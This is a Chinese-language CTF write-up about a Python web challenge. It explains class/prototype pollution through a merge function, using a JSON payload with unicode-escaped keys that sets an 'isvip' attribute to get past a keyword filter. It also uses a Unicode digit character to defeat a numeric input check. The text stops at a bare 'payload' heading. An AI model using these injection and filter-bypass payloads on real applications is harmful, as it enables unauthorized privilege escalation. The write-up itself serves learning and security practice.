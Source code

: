 ```python


if __name__ == '__main__':
    app.run(host="0.0.0.0",port="8888")
```

有merge函数，猜测可能是python原型链污染

看了flag路由，关键是让isvip等于True（这里isvip等于flase的话，访问flag就会爆500）

```python
class User():
    def __init__(self):
        self.username=""
        self.password=""
        self.isvip=False


class hhh(User):
    def __init__(self):
        self.username=""
        self.password=""


user = hhh()
User = User()
print(user.__class__) # hhh类
user.__class__.__base__.isvip = True # 让User类的isvip属性等于True
print(User.isvip) # 这里还是flase，因为是直接调用了User类中的isvip
print(user.isvip) # 这里是True，因为hhh类中没有isvip属性，就会找父类的属性
```

payload

```json
{"username":"admin","password":"123456","__class__":{"__base__":{"\u0069\u0073\u0076\u0069\u0070":"True"}}}
```

这里isvip被过滤了，用unicode编码绕过，这里就相当于给User()类添加了一个`isvip`属性并且值为True

登录后，没有发现啥东西，直接访问flag

```python
if '0' not in data and data != "123456789" and int(data) == 123456789 and len(data) <=10:
```

这里用`Non-ASCII Identifies`绕过，https://www.compart.com/en/unicode/

在这个网站中可以找到一些特殊的unicode字符

例如，我找了一个代表数字1的字符

![image-20240321132309914](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240321132309914.png)

payload
